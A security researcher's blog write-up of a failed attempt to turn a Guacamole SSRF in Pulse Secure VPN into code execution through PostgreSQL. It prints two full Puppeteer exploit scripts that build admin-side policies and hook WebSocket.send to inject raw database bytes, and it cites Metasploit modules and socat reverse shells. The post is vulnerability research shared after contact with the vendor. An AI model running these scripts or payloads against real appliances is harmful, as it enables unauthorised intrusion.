## Second article of the Failed series!

We often read articles or research that explain how to exploit X or how Y works. Most of the time this seems straightforward, and yet we all struggle doing our own research. We "know" that failing is "normal", it's part of the process, yet it can hurt or make you feel bad.

> The path I now want to take, is the wrong one. The one that leads to nothing. 

One last thing before we begin! \
If you find something cool to add, or a way to make these exploits successful, I'd be happy to have you for a guest-post!

---

Talk recording from the [@RTFMeet](https://twitter.com/sigsegv_event/status/1478103292404289538) thanks to [@clement_houy](https://www.clementhouy.com/)



---


# Pulse Secure VPN and Guacamole WebSocket Hooking

> Side note: I gave a talk the 18th of December 2021 in Paris about this research. So instead of writing a regular blogpost, I'll try something different and walk you through the talk with the same slides. Feedbacks on whether this is a `good` or `bad` approach are more than welcome! :)


# 1. Catch-Up on Guacamole

Guacamole is still (no, really?) a protocolar gateway that can be used to telnet/ssh/vnc/rdp/anything from your browser into another device on the adjacent network. If you're not familiar with this technology, please read the first part here: [RCE with SSRF and File Write as an exploit chain on Apache Guacamole](/hacking/hacking_guacamole_to_trigger_avocado/)



Please note the difference between the guacamole software (middle) and THE guacamole (left) made by [@FitFait_BienFait](https://www.instagram.com/fitfait_bienfait/) while I'm wasting time (many nights) on bugs that lead to nothing..


# 2. A Real Life Target

Now, let's talk about our little guest: Pulse Secure VPN

This is `indeed` a VPN, and luckily, guacamole is one of its internal components! Here is a screenshot of its main admin panel with some stats and version information. 



Over the past years, [many vulnerabilities](https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html) have been found, going from pre-auth file read to post-auth command injection. Both have proofs of concept and have been found by [Orange Tsai](https://twitter.com/orange_8361) (along with others issues).



One other really cool vulnerability that doesn't have (yet?) its public proof of concept is a pre-auth use after free that leads to remote code execution. Sexy! Isn't it?

What this means is that there this is a cool playground to have fun with, AND it has guacamole embedded, which is extra-nice for us!




# 3. Debug Process

When it comes to vulnerability findings, there are two very different worlds. Some folks prefer a black-box approach, they try to understand what happens under the hood, make assumptions on what could be done, bypassed, and so on.

The other kind (that I am part of) really feel the need to have more insights on what's inside. What does the code really do? What interactions and components are in place? Can we plug a debugger into it? The clearer it gets, the easier it is to find odd behaviors and turn them into vulnerabilities afterward. 

With Pulse Secure VPN (now shortened `pulse`), we're either offered a LILO boot menu, or during runtime a restricted CLI interface allowing a few tweaks. No pain, no shell, sad soup. 


Of course it's still possible to use known vulnerabilities on the past versions, but when it comes to the latest one, how can we get a shell on our target? 

Well, I tried a few approaches that were really nice fails!

1. Trying to unpack the vmdk file (downloaded from their official website), modify scripts, repack, run, and shell. This failed mostly because I'm not good at reversing stuff and the VM was decrypting most of its components at runtime. Overall, I didn't spend enough time on it, could have worked, eventually, maybe..
1. Trying to boot the VM, take a snapshot, inject a shellcode in the snapshot, restart the VM, and woosh! Crash because of memory corruption and/or integrity checksums. Yay. 
1. Find a new remote code execution the black-box way. Welp, life's not an easy thing, I guess..

I was slowly getting discouraged and willing to spend more time on the first idea, but I asked a colleague if he had a bright idea. He laughed. What he had was better than an idea, he had already read the LILO doc! 

I tried to spawn a debug shell within LILO, but hey, there is no need to find a submenu when you `can actually just append options to the boot-line` from the boot menu. I... Had no clue that it could work that way. 

Once again, `many thanks` Grumpy Old Hacker! ❤️



As explained a bit earlier, I also spawned an easy shell with `metasploit` and its `exploit/linux/http/pulse_secure_gzip_rce` module. It was clean, easy, fast, convenient, and brain-dead. I did most of my research on the 9.1R8 research which is quite old, but whatever, I was just interested in guacamole.. :)



Ok. We now have a shell, upload, and download features. But there are no tools, no `find`, no `file`, no `grep`, no `tcpdump`, etc etc etc. It's not helping much, but it's a good start!

Now I used a trick (tool) that I loooove so much: [minos-static](https://github.com/minos-org/minos-static)

This tool exposes many recipes one can use to build static binaries, as well as the precompiled binaries as well. It's incredibly convenient. Think about it, you spawn a shell on a remote target, you drop a static `socat` and `tmux` there, and woosh, you now have a reverse tty, with signals, right-left keys, auto-completion, no risks to kill your shell with a ctrl^C, and even better, with tmux you can have many features with such as background processes, multiple windows, panes, shell resize, etc, in a single reverse shell. Yes. You're welcome. 

That being said, I used socat all along to have both a reverse pty with multiple windows/panes (tmux <3), but I also used socat to have multiple ports forwarding and byte-dumps. This can be used to capture handshakes, debug exchanges, expose local ports on the public ip, and so on. On the right, you can see a simple way to bypass ssl issues by letting socat take care of everything, and then hit your loopback in plaintext. Once again, a huge time saver. 




Last but not least, when it comes to long exploit chains, what you really want is to debug every step. One. By. One. \
Trying to fight all your dragons at once will definitely take you to your grave.

In order to obtain our holy grail, our super-duper remote code execution, we'll inspect the following stages: 

1. Find guacamole, verify that our part-1 SSRF is still there
1. Verify that we can send arbitrary bytes without limitation and no garbage
1. Make sure that arbitrary bytes sent to PostgreSQL leads to our RCE
1. Finally, try to chain all the steps, debug, debug, debug...

Ready? Steady? Go!




# 4. Automation & WrapUp

> Ok, it's small, I know, but I fixed the zoom factor on thinkloveshare, you can now pinch and zooooom in!

First things first, can we really get code execution on PostgreSQL that easily? Drop your brain, launch msfconsole, use the module `multi/postgres/postgres_copy_from_program_cmd_exec`, set the right options, and woosh, meterpreter. 

Here's the detail: 

- Top pane: PostgreSQL in a docker, to test things fast without trashing your main OS
- Bottom left pane: socat doing a port forward, that way we can easily dump the bytes we'll replay later on
- Bottom right pane: `msfconsole` attacking postgres, no password has been set, we're hitting the loopback!



Second screenshot, we still have docker up there and socat on the bottom left pane. But this time, we use metasploit (middle right) only for its `exploit/multi/handler` feature, and the exploit is just sent with `echo` and `socat` to the targeted port. Bottom left, socat is still dumping the same bytes, we're replaying the attack without logic, it still works. Smells good for our SSRF, right?



We now know that our PostgreSQL exploit will work smoothly. What about the guacamole side? How can we actually inject arbitrary bytes?

A few words about the guacd protocol. It's really picky, if you take too much time to answer, if the socket dies, or if you don't respect any of the conventions, it'll close the socket right away. 

One cool thing tho, is that if you use the copy-paste feature within guacamole, it'll send the data as a base64 encoded payload. We can just inject arbitrary bytes there, it just works.. If you find a way to inject seamlessly in the websocket. 

One not-so-cool thing is that while you're sending base64 payloads and keycodes, it only answers with... Screenshots... Images... Literally `GET RECT` mate. 



Fiiine, in order to send your arbitrary bytes, some difficulties come in place. I was just trying to test the attack, but couldn't find efficient tooling, here are a few dead-ends: 

- You can't use match-and-replace features on websockets in BurpSuite (at least I did not succeed)
- You can re-open a websocket, but then guacd protocol breaks
- Other proxies (tried with mitm-framework) don't work smoothly (yet?) with websockets, so implementing our own match-and-replace isn't that easy
- Listing and injecting in websockets in a browser while having the connection open isn't an easy task
- Identifying where the javascript sends the base64 was hard, there were too many sinks and messy javascript
- Burp crashes
- Burp crashes
- Burp crashes
- Burp crashes again... :@



So even if I wanted to test the exploit stages without coding a full exploit, there was just no easy way! Implementing the whole process in python would be messy, the network exchanges are too numerous, it would be really painful and time consuming. 

[Puppeteer](https://github.com/puppeteer/puppeteer) to the rescue! Ever heard of it? It allows you to drive a browser with javascript code, as well as have many cool debug features and more control over what happens under the hood. This means that all the heavy lifting will be done for us, yay!




### A few puppeteer tips

It can be hard to get started once you're done playing with the default scripts that allow you to take a screenshot and save a page. But one thing that I want you to realize, is that you don't need to "know how to code well" in order to script stuff. The chrome developer tools are here for you, and they do most of the work for you!

I used the following workflow to develop this exploit: 

1. Install & Setup puppeteer to use an http proxy (code below), here I used BurpSuite
1. Make puppeteer go to a specific page and comment the `browser.close()` statment so the browser stays open
1. Open the chrome developer tools and select the js, dom, or xpath selector of the item you want to interact with
1. Implement the interaction that you need to reproduce (with auto-completion!!) in the chrome debugger
1. Once it works in the debugger, add the lines to your script and go back to step 2! :)

Eventually, after many runs, you'll have all your actions scripted, and you still can debug easily and see through your exploit with the proxy in place. 

Of course there are some puppeteer quirks that you can use to bind the chrome debugger output to your shell stdout, hook events, or even mitm your browser without proxy. But most of the time, it's as simple as the workflow described above. 

> Last pro tip: Yes, [pyppeteer](https://github.com/miyakogi/pyppeteer) is a thing, but I _really_ think that using python as a wrapper for javascript is a bad idea. You'll just end up having too many bugs, missing bindings, and loose all the advantages of easy asynchronous javascript. Lastly, it's much more convenient to inject javascript in a browser, using javascript. So don't go for `pypeteer`, learn javascript. For the right needs, use the right tools, not just "what you already know" ^.^


## Show me the code!

Here is the final exploit, it's 300 lines of javascript, driving puppeteer. It took something like 6 hours to code and debug ans is composed of two files: 

1. First part logs-in as an administrator, ceates an authentication server, a realm, a user, a policy, a user resource (aka guacamole access), and binds everything together. It. Was. Painful.
2. Second part is the regular user logging in with the right realm, using the previously created guacamole access that will connect its browser to the loopback, port 5432 (PostgreSQL). 




### First exploit

```javascript
/*
    Author: @TheLaluka
    npm i puppeteer
    node 01-sploit-admin.js
*/

const puppeteer = require("puppeteer");
const base_url = "https://my.pulse";
(async() => {

    const delay = ms => new Promise(resolve => setTimeout(resolve, ms))

    // Setup browser
    console.log("[+] Setup browser")
    const browser = await puppeteer.launch({
        headless: false,
        ignoreHTTPSErrors: true,
        defaultViewport: null,
        // args: ['--proxy-server=127.0.0.1:8080']
    })
    const page = (await browser.pages())[0]

    // Login admin
    console.log("[+] Login admin")
    await page.goto(base_url + "/dana-na/auth/url_admin/welcome.cgi")
    await page.waitForSelector('#username');
    await page.type("#username", "admin")
    await page.type("#password", "choubidouce")
    await page.click("#btnSubmit_6")

    try {
        await page.waitForSelector("[name='btnContinue']", {
            timeout: 1000 // Continue if previous session established
        })
        if (await page.$("[name='btnContinue']") !== null) {
            await page.click("[name='btnContinue']");
            console.log("[+] Previous session found, continuing")
        }
    } catch (e) {
        console.log("[+] No previous session, continuing")
    }

    // Create server
    console.log("[+] Create server")
    await page.setExtraHTTPHeaders({ referer: base_url + "/dana-admin/misc/admin.cgi" })
    await page.goto(base_url + "/dana-admin/auth/listServers.cgi")
    await page.waitForSelector("#ServerType")
    await page.evaluate(() => {
        $("#ServerType option:contains('Local Authentication')")[0].selected = true
    })
    await page.waitForSelector("#btnCreateNewServer")
    await page.click("#btnCreateNewServer")
    await page.waitForSelector("#txtReferenceName_5")

    var server = "server" + Date.now()
    await page.type("#txtReferenceName_5", server)
    await page.click("#btnSaveServerChanges_1")
    console.log("[*] Server created: " + server)
    await page.waitForSelector("#frmAuthServer")

    // Goto users
    console.log("[+] Goto users")
    linkHandlers = await page.$x("//*[@id='frmAuthServer']/ul/li[2]/a");
    if (linkHandlers.length > 0) {
        await linkHandlers[0].click();
    } else {
        console.log("[-] Users button not found")
        process.exit(1)
    }
    await page.waitForSelector("#btnNew_32")
    await page.click("#btnNew_32")

    // Create user
    console.log("[+] Create user")
    await page.waitForSelector("#login")
    var user_name = "user" + Date.now()
    var user_passord = "petitfromageaupoivre" + Date.now()
    await page.type("#login", user_name)
    await page.type("#name_10", user_name)
    await page.type("#passwd", user_passord)
    await page.type("#confirm_passwd", user_passord)
    await page.click("#AddLocalUser")
    console.log("[*] User created: " + user_name + " : " + user_passord)

    // Create new role
    console.log("[+] Create new role")
    await page.setExtraHTTPHeaders({ referer: base_url + "/dana-admin/misc/admin.cgi" })
    await page.goto(base_url + "/dana-admin/roles/roles.cgi?btnNew=1")
    await page.waitForSelector("#txtName_40")
    var role = "role" + Date.now()
    await page.type("#txtName_40", role)
    await page.type("#txtDescription_27", role)
    await page.click("#chkHTML5Acc")
    await page.click("#btnCreate_3")
    console.log("[*] Role created: " + role)

    // Create new realm
    console.log("[+] Create new realm")
    await page.setExtraHTTPHeaders({ referer: base_url + "/dana-admin/misc/admin.cgi" })
    await page.goto(base_url + "/dana-admin/realm/listRealms.cgi")
    await page.waitForSelector("#btnNewPolicyRealm")
    await page.click("#btnNewPolicyRealm")

    await page.waitForSelector("#txtRealmName_3")
    var realm = "realm" + Date.now()
    await page.type("#txtRealmName_3", realm)
    await page.type("#txtDescription_25", realm)

    selectHandler = await page.$x("//option[contains(., '" + server + "')]");
    if (selectHandler.length > 0) {
        server_value = await selectHandler[0].evaluate(domElement => { return domElement.value })
        await page.select("select#cmbAuthenServer", server_value)
    } else {
        console.log("[-] Server option not found")
        process.exit(1)
    }
    await page.click("#btnSaveRealmGeneral_1")
    console.log("[*] Realm created: " + realm)

    // Create new role mapping
    console.log("[+] Create new role mapping")
    await page.waitForSelector("#btnNewPolicyRule")
    await page.click("#btnNewPolicyRule")

    var rule = "rule" + Date.now()
    await page.waitForSelector("#txtRuleName")
    await page.type("#txtRuleName", rule)
    await page.type("#txtUserNamePatterns", user_name)

    selectHandler = await page.$x("//option[contains(., '" + role + "')]");
    if (selectHandler.length > 0) {
        role_value = await selectHandler[0].evaluate(domElement => { return domElement.value })
        await page.select("select#lstAvailableRoles_4", role_value)
    } else {
        console.log("[-] Role option not found")
        process.exit(1)
    }
    await page.click("#btnAddRole")
    await page.click("#btnSaveRuleMapping")
    delay(3000)

    // Create new resource policy
    console.log("[+] Create new resource policy")
    await page.setExtraHTTPHeaders({ referer: base_url + "/dana-admin/misc/admin.cgi" })
    await page.goto(base_url + "/dana-admin/objects/resource_objects.cgi?object_type=html5acc")
    await page.waitForSelector("#btnNew_20")
    await page.click("#btnNew_20")

    await page.waitForSelector("#optHTML5AccType")
    selectHandler = await page.$x("//option[contains(., 'Telnet')]");
    if (selectHandler.length > 0) {
        telnet_value = await selectHandler[0].evaluate(domElement => { return domElement.value })
        await page.select("select#optHTML5AccType", telnet_value)
    } else {
        console.log("[-] Telnet option not found")
        process.exit(1)
    }
    delay(3000)
    var policy = "policy" + Date.now()
    await page.type("#txtName_30", policy)
    await page.type("#txtDescription_19", policy)
    await page.type("#txtServer_2", "127.0.0.1") // Hit the loopback for ssrf
    await page.evaluate(() => document.getElementById("txtServerPort").value = "") // Reset dummy port
    await page.type("#txtServerPort", "5432") // Set postgresql default port
        // await page.type("#txtServerPort", "5555") // If you want to debug with socat exposing port 5555 on 0.0.0.0
    await page.click("#btnSave_58")
    console.log("[*] Polict created: " + policy)
    delay(3000)

    // Assign role to policy
    console.log("[+] Assign role to policy")
    await page.waitForSelector("#lstAvailableUserRoles_1")

    selectHandler = await page.$x("//option[contains(., '" + role + "')]");
    if (selectHandler.length > 0) {
        role_value = await selectHandler[0].evaluate(domElement => { return domElement.value })
        await page.select("select#lstAvailableUserRoles_1", role_value)
    } else {
        console.log("[-] Role option not found")
        process.exit(1)
    }
    await page.click("#btnUserRolesAdd")
    await page.click("#btnSave_57")
    
    // delay(3000)
    await browser.close()

    console.log("[!] All done here, now run")

    // console.log("node 02-sploit-user.js " + user_name + " " + user_passord + " " + realm + " " + policy + " IP PORT")
    // Yup, hardcoded IP, I never took the time to automate the payload generation with msfconsole / msfvenom :)
    console.log("node 02-sploit-user.js " + user_name + " " + user_passord + " " + realm + " " + policy + " 192.168.1.25 4444")
})();
```

### Second exploit

```javascript
/*
    Author: @TheLaluka
    run node 01-sploit-admin.js before this script
*/

const puppeteer = require("puppeteer");

if (process.argv.length != 8) {
    console.log("Fcked up arguments, run node 01-sploit-admin.js before this script")
    console.log("ex: node 02-sploit-user.js userXXX petitfromageaupoivreXXX realmXXX policyXXX IP PORT")
    process.exit(1)
} else {
    user_name = process.argv[2]
    console.log("[+] user_name: " + user_name)
    user_passord = process.argv[3]
    console.log("[+] user_passord: " + user_passord)
    realm = process.argv[4]
    console.log("[+] realm: " + realm)
    policy = process.argv[5]
    console.log("[+] policy: " + policy)
    ip = process.argv[6]
    console.log("[+] ip: " + ip)
    port = process.argv[7]
    console.log("[+] port: " + port)
}

(async() => {
    const delay = ms => new Promise(resolve => setTimeout(resolve, ms))

    // Setup browser
    console.log("[+] Setup browser")
    const browser = await puppeteer.launch({
        headless: false,
        ignoreHTTPSErrors: true,
        defaultViewport: null,
        devtools: false
    })
    const page = (await browser.pages())[0]

    // await delay(3000)

    // Login user
    console.log("[+] Login user")
    await page.goto("https://my.pulse/dana-na/auth/url_default/welcome.cgi")
    await page.waitForSelector('#username');
    await page.type("#username", user_name)
    await page.type("#password", user_passord)
    await page.$eval('#realm_16', (el, realm) => {
        el.value = realm;
    }, realm);
    await page.click("#btnSubmit_6")

    try {
        await page.waitForSelector("#btnContinue", {
            timeout: 1000 // Continue if previous session established
        })
        await page.click("#btnContinue");
        console.log("[+] Previous session found, continuing")
    } catch (e) {
        console.log("[+] No previous session, continuing")
    }

    // Open Html5 access on netcat
    console.log("[+] Open Html5 access on netcat")
    await page.waitForSelector("#table_html5accline_2_0 > tbody > tr > td:nth-child(2) > a")
    linkHandlers = await page.$x("//a[contains(., '" + policy + "')]");
    if (linkHandlers.length > 0) {
        await linkHandlers[0].click();
    } else {
        console.log("[-] Policy link not found")
        process.exit(1)
    }

    // Sending SSRF to postgres
    console.log("[+] Sending SSRF to postgres")
    await page.waitForSelector("#content")
    await page.focus("#content")

    // Hooking the websocket
    console.log("[+] Hooking the websocket")

    // Hook the chrome console to node console to print browser logs in the shell
    // page.on('console', consoleObj => console.log(consoleObj))


    await page.evaluate(() => {
        // Remember to update the payload here
        var payload = "\x00\x00\x00\x08\x04\xd2\x16\x2f\x00\x00\x00\x54\x00\x03\x00\x00\x75\x73\x65\x72\x00\x70\x6f\x73\x74\x67\x72\x65\x73\x00\x64\x61\x74\x61\x62\x61\x73\x65\x00\x70\x6f\x73\x74\x67\x72\x65\x73\x00\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x5f\x6e\x61\x6d\x65\x00\x70\x73\x71\x6c\x00\x63\x6c\x69\x65\x6e\x74\x5f\x65\x6e\x63\x6f\x64\x69\x6e\x67\x00\x55\x54\x46\x38\x00\x00\x51\x00\x00\x00\x16\x53\x45\x4c\x45\x43\x54\x20\x76\x65\x72\x73\x69\x6f\x6e\x28\x29\x3b\x00"
        var must_send = true
        var base64 = btoa(payload)
        var final_payload = "9.clipboard,1.0,10.text/plain;4.blob,1.0," + base64.length + "." + base64 + ";3.end,1.0;3.key,5.65507,1.1;"
        const originalSend = WebSocket.prototype.send
        WebSocket.prototype.send = function(...args) {
            if (must_send) {
                console.log(final_payload);
                originalSend.call(this, ...[final_payload])
                must_send = false
            }
            console.log(args)
            return originalSend.call(this, ...args)
        }
    })

    // Keep it open, ease our debug process :)
    // await browser.close()
})();
```

It's mostly clicks and keystrokes, but there is one really interesting part I want to detail. I first wanted to get a handle on the websocket, and send things on the way, but I could find no easy way to just list currently opened websockets! So a cool workaround is to "attack ourselves" with a self prototype pollution. 

Long story short, we're hooking the WebSocket's send method so we can inject arbitrary bytes to be sent at runtime. 

1. We save the original send method
1. We overwrite the send function of the main WebSocket object, every newly created websocket will inherit from this method
1. We send our arbitrary bytes, here stored in `final_payload`
1. We send the bytes that were supposed to be sent by the initial send call, that way guacd remains happy (and alive)

The payload sent is the PostgreSQL payload we tested earlier. 




Here's the complete exploit chain, it goes woosh-woosh click-click!

<video class="img_full" controls>
  <source src="pulse-puppeteer-demo.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>


# 5. Literally Failing on a Challenge

Yup, no shell. The demo fails. But why? \
Once the payload is submitted, we're left with the following message: 

`FATALC2000Mno pg_hba.conf entry for host X.X.X.X, user, pass, ...`

The exploit we proved functional was tested in a docker instance, but I also tested the byte replay inside the pulse VM and it worked. So what are we missing here? What The Heck??



There is one slight difference, can you spot it? \
Please don't mind the length, from, and to indicators, they're not related to what I want to show, just a side effect on how the data is sent. 

So? Any clue? Not really? Yup. It took me a few days to try different approach, and at some point it hit me: 

`Maybe I should google this error?!`



The error seems to be related to the source IP hitting PostgreSQL. But we have an SSRF, we're from loopback, to loopback, right? Riiight?

It turns out that socat has no feature to print the source IP, but it can be displayed by using the env variables socat sets.

There it is. The small difference. Our nightmare. \
Guacd sends our bytes, it can reach the loopback, but it sends them from the `public IP`. How come? Why? Fuuuuuuuu!



By reading the configuration file, it gets even clearer, the loopback is trusted, no authentication, it just works. Meanwhile for the public IP, there is no entry (literally what the error tells us, *sigh*). 

So this whole exploit chain fails for this specific detail. 



Picture me, 7a.m, a few nights spent on this, many expectations... And this. 


# 6. Is it Worth Bypassing?

One could think that this is a dead-end, but it's `always` a matter of time. A bypass can always be found, but is it worth the time it'll cost?



It sure is an interesting exercice, but I don't think it's really worth bypassing for the following reasons: 

- The post-auth exploits already work up to the version 9.1R09
- Guacamole gets `deprecated` (yes I'm sad) on 9.1R13
- It leaves us a 1 year vulnerable and userful time span, post-auth, for something that's not a 0-day anymore.. Why bother?

That being said, I have `a few bypass ideas` to try, and I'm still willing to invite someone for a guest post, so if you want to give it a try.. :)

- Could IPv6 be used in the SSRF? How does guacd handle this? Can we reach PostgreSQL?
- Can we find another bypass to reach PostgreSQL, or overwrite its configuration?
- There are many python scripts exposing ports on the loopback, what are they really doing?
- Guacd is a plain C++ project and has already been the target of many binary exploits. Maybe now is the right time to start fuzzers?
- Can we try to have a valid handshake? A two-way ssrf (also called port forward)? Use an OCR? How to deal with non-printable bytes in the screenshots we receive?


# 7. Last Words

That's it about the technical part! But not for the human part, and of course this matters as well! ^.^

A few days after the initial release of the guacamole blogpost, Ivanti folks (company in charge of pulse) reached out and were really willing to do things the right way. 

Mr. R. was really polite, helpful, trying to determine if this would impact customers, offered to setup a meeting with the right technical employee, and even offered some goodies. Shhh, it's not corruption, it's.. It's... Hoodies!

It really made my day to have someone dealing with this proactively, without any accusation, just trying to do the right thing. Please, keep up the good work! 



Finally, yes, guacamole is really gone.. We can ensure that by two things: 

1. It's gone from the UI, so this is a hint but not a proof
1. Running `find` and matching on `guacd` has like 200 matches on the old versions, and 2 on the last one. Maybe these old unused libs could be remove? :)

> I actually corrupted my recent VM snapshot before taking the last screenshots, and the setup takes time.. Fact-check me if you like, I'm not taking one more hour setting up a VPN for a screenshot. ^^'



Is pulse any better now? Is it still worth looking for vulnerabilities?

Dude, Pal, Sir, yes. \
It's (sorry..) a mess. A cgi-server that invokes custom perl scripts, that calls python scripts, that eventually load old .so libraries that have never been hardened nor fuzzed much. Are we really in 2021? Feels like 2000, so `go for it`, there are too many components, protocols, and features for this to end up being secure! :)



Once again, thank you for spending a few minutes reading what I spent weeks to find, I hope you've had fun!

Kudos to the [RTFMeet](https://twitter.com/sigsegv_event)'s staff for the cool events, to [@FitFait_BienFait](https://www.instagram.com/fitfait_bienfait/) for feeding me while I spend too many nights on this, and to my colleague Grumpy Old Hacker for the LILO tips!

Have a marvelous day, go break stuff, and remember to spend some time helping newcomers! ^.^


